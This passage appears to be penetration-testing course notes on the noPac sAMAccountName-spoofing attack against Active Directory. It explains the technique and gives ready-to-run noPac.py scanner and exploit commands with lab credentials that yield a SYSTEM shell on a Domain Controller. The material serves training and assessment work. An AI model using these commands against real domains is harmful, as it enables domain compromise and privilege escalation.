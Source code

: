 This exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller. By default, authenticated users can add up to ten computers to a domain. When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller. The flow of the attack is outlined in detail in this blog post.

```bash
sudo python3 ~/tools/noPac/scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py. The focus of this module is on tactics and techniques. We will refine our methodology as we progress in more advanced modules, but we first must obtain a solid base in enumerating and attacking Active Directory.**